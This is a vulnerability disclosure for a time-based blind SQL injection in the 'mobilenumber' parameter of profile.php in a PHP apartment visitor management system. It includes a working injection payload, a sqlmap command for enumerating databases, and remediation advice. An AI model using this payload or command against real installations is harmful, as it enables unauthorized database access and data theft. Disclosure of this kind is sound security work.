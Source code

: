 # SourceCodester Apartment Visitor Management System V1.0 /profile.php mobilenumber parameter SQL injection
# NAME OF AFFECTED PRODUCT(S)
+ Apartment Visitor Management System in PHP and MySQL Free Source Code

## Vendor Homepage
+ [homepage](https://www.sourcecodester.com/php-apartment-visitor-management-system-source-code)

# AFFECTED AND/OR FIXED VERSION(S)
## submitter
+ Angel

## Vulnerable File
+ /profile.php

## Vulnerability location:
+ 'mobilenumber' parameter

## VERSION(S)
+ V1.0

## Software Link
+ [Download Source Code](https://www.sourcecodester.com/sites/default/files/download/oretnom23/php-avms_0.zip)

# PROBLEM TYPE
## Vulnerability Type
+ SQL injection

## Root Cause
+ A SQL injection vulnerability was found in the '/profile.php' file of the 'Apartment Visitor Management System in PHP and MySQL Free Source Code' project. The reason for this issue is that attackers inject malicious code from the parameter 'mobilenumber' and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact
+ Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION
+ During the security review of "Apartment Visitor Management System in PHP and MySQL Free Source Code", Angel discovered a critical SQL injection vulnerability in the "/profile.php" file. This vulnerability stems from insufficient user input validation of the 'mobilenumber' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability
# Vulnerability details and POC
## Vulnerability type:
+ <font style="color:#000000;">tiem-based blind</font>

## Payload:
```plain
Parameter: mobilenumber (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: adminname=Mark Cooper&mobilenumber=9123456789' AND (SELECT 9818 FROM (SELECT(SLEEP(5)))wWJs)-- FSSc&email=admin@mail.com&update=
```

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:
```plain
sqlmap -r test.txt --batch --level=5 --risk=3 --dbms=mysql --dbs
```

![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1747487427102-d75405ea-8aaa-4a63-9685-48aa34fb153d.png)

# Suggested repair
1. **Use prepared statements and parameter binding:**

Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.

2. **Input validation and filtering:**

Strictly validate and filter user input data to ensure it conforms to the expected format.

3. **Minimize database user permissions:**

Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.

4. **Regular security audits:**

Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.

